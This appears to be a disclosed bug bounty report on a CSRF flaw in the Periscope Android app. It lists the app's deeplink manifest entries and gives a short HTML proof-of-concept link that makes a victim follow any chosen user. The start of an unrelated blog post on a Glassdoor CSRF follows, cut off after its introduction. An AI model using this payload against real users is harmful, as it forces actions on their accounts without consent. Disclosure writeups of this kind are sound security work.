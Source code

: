 #POC

In Android Manifest XML file, internal deeplinks are described as

```html
<data android:host="user" android:pathPrefix="/" android:scheme="pscp"/>
<data android:host="user" android:pathPrefix="/" android:scheme="pscpd"/>
<data android:host="broadcast" android:pathPrefix="/" android:scheme="pscp"/>
<data android:host="broadcast" android:pathPrefix="/" android:scheme="pscpd"/>
<data android:host="channel" android:pathPrefix="/" android:scheme="pscp"/>
<data android:host="channel" android:pathPrefix="/" android:scheme="pscpd"/>
<data android:host="discover" android:pathPrefix="/" android:scheme="pscp"/>
<data android:host="discover" android:pathPrefix="/" android:scheme="pscpd"/>
```
+ It means we can use ` pscp://user/<user-id> or pscpd://user/<user-id>`
+ Now,normally if we share follow link from website, it'll be like this, `www.pscp.tv/<user-id>/follow`, further give us option to follow them or not.

+ In deeplink, we can use the same follow-link in this way - `pscp://user/user-id/follow`, Once you visit this link from the browser, you'll directly follow any person in periscope android app.

+ Here is the Final POC
```html
<!DOCTYPE html>
<html>
<a href="pscp://user/<any user-id>/follow">CSRF DEMO</a>
</html>
```
+ Visit the above POC html page from android chrome browser, click on link and you'll follow anyone directly inside Periscope android app.

#Attachment (Video)
{F492266}

+ App Info - Periscope V 1.25.5.93

Thanks
Kunal

## Impact

+ Using Periscope deeplink like pscp://user/user-id/follow, it's possible to perform Direct CSRF Follow against any user in periscope android app.



# SITE WIDE CSRF ON GLASSDOOR

Posted on [December 3, 2020](https://blog.witcoat.com/2020/12/03/site-wide-csrf-on-glassdoor/) by [Tabahi](https://blog.witcoat.com/author/tabahi90/)

In february, 2020 I was looking at what to hack. [Glassdoor](https://www.glassdoor.com/) has a good security team and I had found a lot of bugs on their application before. They have a public bug bounty program on [Hackerone](https://hackerone.com/), [here](https://hackerone.com/glassdoor?type=team).

---